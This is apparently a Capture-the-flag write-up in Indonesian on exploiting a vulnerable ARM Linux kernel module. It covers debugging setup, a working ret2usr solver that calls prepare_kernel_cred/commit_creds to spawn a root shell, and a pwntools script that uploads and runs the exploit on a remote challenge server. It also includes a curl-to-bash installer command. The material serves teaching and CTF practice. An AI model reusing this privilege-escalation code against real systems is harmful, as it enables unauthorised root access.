

# Initial

Install dependencies yang dibutuhkan dalam kernel exploitation :
 
```
$ sudo apt update && sudo apt upgrade
$ sudo apt install qemu-system-arm gdb-multiarch binutils gcc-arm-linux-gnueabi
```

Untuk awalan kita akan diberikan file initramfs.cpio.gz , vmlinux, dan launch.sh. Pertama-tama kita perlu membongkar file initramfs.cpio.gz karena file ini berisi apa saja yang akan di load pada kernel.

```
mkdir initramfs
cd initramfs
cp ../initramfs.cpio.gz .
gunzip ./initramfs.cpio.gz
cpio -idm < ./initramfs.cpio
rm initramfs.cpio
```

Ubah file initramfs/init dengan code sebagai berikut :
```
#!/bin/sh

mount -t proc none /proc
mount -t sysfs none /sys

insmod chall.ko

sysctl -w kernel.perf_event_paranoid=3
sysctl -w kernel.dmesg_restrict=1
sysctl -w kernel.kptr_restrict=1
clear
cat <<EOF


Boot took $(cut -d' ' -f1 /proc/uptime) seconds


Welcome to ngab.college


EOF
chmod 600 /flag
chown 0.0 /flag
mkdir /tmp
chown 1000.1000 /tmp
chown -R 1000.1000 /home/
/bin/sh #code ini supaya kita berjalan sebagai root didalam kernel
#exec su -l ctf
```

lalu buat file initramfs.cpio.gz lagi dengan command berikut :
```sh
cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```

edit file launch.sh dan tambahkan tag -s seperti berikut : 
```sh
#!/bin/bash

#code dibawah ini supaya exploit atau perubahan kita bisa dijalankan bersamaan dengan kernel
pushd initramfs 
find . -print0 | cpio --null -ov --format=newc | gzip -9 > ../initramfs.cpio.gz
popd

# launch
/usr/bin/qemu-system-arm \
	-M vexpress-a9 \
	-dtb ./vexpress-v2p-ca9.dtb \
	-kernel ./zImage \
	-initrd $PWD/initramfs.cpio.gz \
	-nographic \
	-m 1024 \
        -s \
	-monitor none \
	-append "console=ttyAMA0 nosmap nosmep nokaslr nokpti quiet" \
```

Kemudian jalankan file launch.sh seperti biasa yaitu `./launch.sh`


# static and dynamic analysis

Dari extract initramfs akan didapatkan file .ko --> buka di IDA/Ghidra 
Informasi penting yang harus didapatkan selama static analysis :
- nama device yang digunakan untuk berkominkasi apa, misal proc_create("kcks") maka /proc/kcks
- dapatkan vuln nya, pada level easy biasanya vuln terdapat pada ioctl, paham code pada fungsi ioctl.

Berikut adalah screenshot IDA ketika me-decompile fungsi init_module, diketahui bahwa kernel module dibuat dengan fungsi proc_create() dengan nama `kcks` maka kita bisa berkomunikasi dengan kernel module tersebut pada file /proc/kcks.




### Dynamic Analysis

Buatlah file .c yang akan berkomunikasi dengan kernel module. berikut adalah sepotong c code yang digunakan untuk berkomunikasi dengan kernel module /proc/kcks dengan ioctl :
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdlib.h>
#include <signal.h>

typedef struct req_userland{
    unsigned long address;
}req_userland;

int main(){
 req_userland uland;
 int fd;
 /*
 // pastikan nama devicenya sama dengan static analysis, disini kita menggunakan /proc/kcks
 // dikarenakan pada fungsi init_module dia memanggil fungsi proc_create("kcks", 00, 00)
 // jika pada init_module memanggil proc_create("tes", 00, 00) maka kita gunakan /proc/tes
 */
 fd = open("/proc/kcks",O_RDWR);  
 uland.address = 0x41414141;
 ioctl(fd, 0, &uland);
 return 0;
}

```

compiled code tersebut dengan -static, dikarenakan disini kita menyerang arm kernel maka compiled dengan command berikut
```
arm-linux-gnueabi-gcc -static solv.c -o solv
```
lalu pindah file solv ke folder initramfs, dan jalankan `./launch.sh`

dapatkan address chall.ko dengan command `cat /proc/kallsyms | grep chall` dan lihat address device_ioctl

```
# cat /proc/kallsyms | grep chall
c0d2953c T fib_rule_matchall
c0d63750 t tcp_send_challenge_ack.constprop.0
bf000000 t $a	[chall]
bf000000 t device_open	[chall]
bf000008 t device_read	[chall]
bf000010 t device_write	[chall]
bf000018 t device_ioctl	[chall]
bf0000b0 t device_release	[chall]
bf0000f0 t cleanup_module	[chall]
bf0000b8 t init_module	[chall]

```
Sebelum menjalankan gdb, akan lebih mudah jika kita menggunakan gdb gef supaya bisa menampilkan instruction, register, stack tanpa perlu menjalankan command secara berulang, untuk menginstall gdb-gef jalankan command berikut (pastikan command curl sudah ter-install)

```
$ bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
```

Kita bisa lihat address device_ioctl adalah 0xbf000018. Lanjut debugging di gdb, dengan menjalankan command berikut

```
$ gdb-multiarch vmlinux #jalankan gdb dengan command tersebut

gef➤  b *0xbf000018 #jalankan command tersebut jika gdb sudah siap
gef➤  target remote :1234 # setelah ini diterminal qemu jalankan solver kalian `/solv`

Breakpoint 1, 0xbf000018 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0xeefdc600
$r1  : 0x0       
$r2  : 0xbe8a3d34
$r3  : 0xbf000018
$r4  : 0xeef80a80
$r5  : 0x0       
$r6  : 0x0       
$r7  : 0xbe8a3d34
$r8  : 0xeefdc600
$r9  : 0xeef9a000
$r10 : 0x36      
$r11 : 0xbe8a3d64
$r12 : 0x1       
$sp  : 0xeef9bf20
$lr  : 0xc04e81a8
$pc  : 0xbf000018
$cpsr: [NEGATIVE zero CARRY overflow interrupt fast thumb]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
[!] Unmapped address: '0xeef9bf20'
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
   0xbf00000c                  bx     lr
   0xbf000010                  mov    r0,  #0
   0xbf000014                  bx     lr
●→ 0xbf000018                  push   {r4,  lr}
   0xbf00001c                  sub    sp,  sp,  #8
   0xbf000020                  add    r4,  sp,  #4
   0xbf000024                  mov    r3,  sp
   0xbf000028                  bic    r3,  r3,  #8128	; 0x1fc0
   0xbf00002c                  bic    r3,  r3,  #63	; 0x3f
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0xbf000018 in ?? (), reason: BREAKPOINT
```

untuk melakukan dynamic analysis pada kernel cukup berbeda dengan binary userland. Di kernel kita hanya bisa menggunakan `si` dan jika tidak ingin debug suatu fungsi kita bisa melanjutkanya dengan `finish` supaya kembali ke asm instruction yang ingin kita debug.

## Solver

Untuk mengeksploitasi vulnerable kernel module kita bisa menggunakan solver berikut :

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdlib.h>
#include <signal.h>

void payload(void)
{        
        if (getuid() == 0) {
                write(1, "start\n", 6);
                system("sh");
                write(1, "over\n", 5);
        } else {
                puts("failed to get root. How did we even get here?");
        }

        _exit(0);
}

long rip;

void shell(void){
    
    asm(
      "MOV     R0, #0;"
      "BL     0xaaaaaaaa;" // addr prepare_kernel_cred
      "BL     0xbbbbbbbb;" // addr commit_cred
      "MSR    CPSR_c,#0x40000010;"
      "BL 0xcccccc;" // addr payload()
    );
}

typedef struct req_userland{
    unsigned long address;
}req_userland;

int main(){
  int fd;
  req_userland uland;
  fd = open("/proc/kcks",O_RDWR);
  uland.address = &shell;
  printf("addres uland @ 0x%x\n", &uland);
  printf("value of uland 0x%x \n", uland);
    
 ioctl(fd, 0, &uland);
 
  payload();
 return 0;
}


```

Dalam beberapa kasus address dari prepare_kernel_cred dan commit_cred bisa berbeda, untuk mengetahui address dari prepare_kernel_cred dan commit_cred, kita bisa jalankan command seperti berikut:

```
# cat /proc/kallsyms | grep prepare_kernel_cred
c0365d3c T prepare_kernel_cred
# cat /proc/kallsyms | grep commit_cred
0xc0365e3c T commit_cred
```

Untuk address dari fungsi payload bisa didapatkan dengan menjalankan command `arm-linux-gnueabi-objdump -D solv | grep payload`.

kita compile dengan command yang sama seperti sebelumnya 

```
arm-linux-gnueabi-gcc -static solv.c -o solv
```

pindahkan file solv ke folder initramfs dan jalankan launch.sh. 

Jika sudah kita bisa perlu berpindah sebagai user ctf terlebih dahulu untuk mengetahui apakah kita bisa melakukan privilege escalation atau tidak 

```
# id
uid=0(root) gid=0(root)
# su ctf
$ id
uid=1000(ctf) gid=1000(ctf)
$ /solv
# id
uid=0(root) gid=0(root)
# cat /flag
KCKS{REDACTED}
```

Eksploit kita sudah berjalan di local, namun bagaimana caranya mendapatkan exploit di server? kita perlu ubah compiled binary kita menjadi base64 dan mengirimkanya ke server, berikut adalah code untuk mengotomasi hal tersebut

```py
from pwn import *
import time, os

p = remote("103.152.118.49", 33481) # ubah sesuai IP dan port yang ada di soal

os.system("tar -czvf exp.tar.gz ./solv") # ubah ./solv sesuai nama solver masing masing
os.system("base64 exp.tar.gz > b64_exp")

f = open("./b64_exp", "r")

p.sendline()
p.recvuntil(b"~ $")
p.sendline(b"echo '' > b64_exp;")

count = 1
while True:
    print('now line: ' + str(count))
    line = f.readline().replace("\n","")
    if len(line)<=0:
        break
    cmd = b"echo '" + line.encode() + b"' >> b64_exp;"
    p.sendline(cmd) # send lines
    time.sleep(0.01)
    p.recvuntil("~ $")
    count += 1
f.close()

p.sendline("base64 -d b64_exp > exp.tar.gz;")
p.sendline("tar -xzvf exp.tar.gz")
p.sendline("./solv") #sesuaikan dengan nama file pada line 6
p.sendline("cat /flag")
p.interactive()
```

Untuk menjalankan code tersebut ktia perlu menginstall library pwntool pada python 

```
$ sudo pip3 install pwntools
$ python3 transfer.py DEBUG // tunggu cukup lama dan flag akan muncul jika exploit berhasil